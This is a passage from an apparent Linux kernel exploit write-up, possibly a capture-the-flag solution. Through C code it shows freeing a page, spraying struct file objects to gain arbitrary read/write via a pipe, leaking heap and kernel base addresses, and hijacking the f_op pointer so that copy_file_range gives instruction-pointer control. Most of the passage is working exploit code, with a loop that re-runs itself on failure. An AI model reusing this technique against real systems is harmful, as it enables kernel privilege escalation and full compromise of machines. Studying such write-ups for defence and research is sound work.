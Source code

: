 After freeing the page again, we spray struct file objects to overwrite it. This results in arbitrary read/write via the pipe, allowing us to tamper with file structures directly:

```c
SYSCHK(write(pipes[1], "A", 1)); // release socket
usleep(50);
int spray_fds[0x80];
char buff[1024] = {};
for (int i = 0; i < sizeof(spray_fds)/4; i++) {
    spray_fds[i] = SYSCHK(open("/tmp/tmp_file", O_RDWR | O_CREAT, 0666));
    SYSCHK(write(spray_fds[i], buff, i));
}
```

Leak:

```c
u64 buf[0x1000/8];
for (int i = 0; i < PIPE_SPRAY_NUM; i++) {
    SYSCHK(read(pipe_fd[i][0], buf, sizeof(buf)));
    for (int j = 0; j < sizeof(buf)/8; j++)
        if (buf[j] == 0x4f801f00000000) { // find flag file
            goto buildrop;
        }
}
for (int i = 0; i < sizeof(spray_fds)/4; i++) {
    SYSCHK(close(spray_fds[i]));
}
puts("retry");
usleep(5000);
system(argv[0]);
exit(0);
buildrop:
memcpy(save_page, buf, sizeof(buf));
close(sock);
heap_base = (buf[6]-0x30) >> 12 << 12;
info("heap_base", heap_base);
kbase = buf[22] - SHMEM_FILE_OPERATIONS; // f->f_op
// [...]
```

RIP control via `copy_file_range`:

```c
SYSCALL_DEFINE6(copy_file_range, int, fd_in, loff_t __user *, off_in,
		int, fd_out, loff_t __user *, off_out,
		size_t, len, unsigned int, flags)
{
	// [...]
	ret = vfs_copy_file_range(f_in.file, pos_in, f_out.file, pos_out, len,
				  flags);
	// [...]
}

ssize_t vfs_copy_file_range(struct file *file_in, loff_t pos_in,
			    struct file *file_out, loff_t pos_out,
			    size_t len, unsigned int flags)
{
	// [...]
	if (!splice && file_out->f_op->copy_file_range) {
		ret = file_out->f_op->copy_file_range(file_in, pos_in,
						      file_out, pos_out,
						      len, flags); // take control RIP
		goto done;
	}
    // [...]
	return ret;
```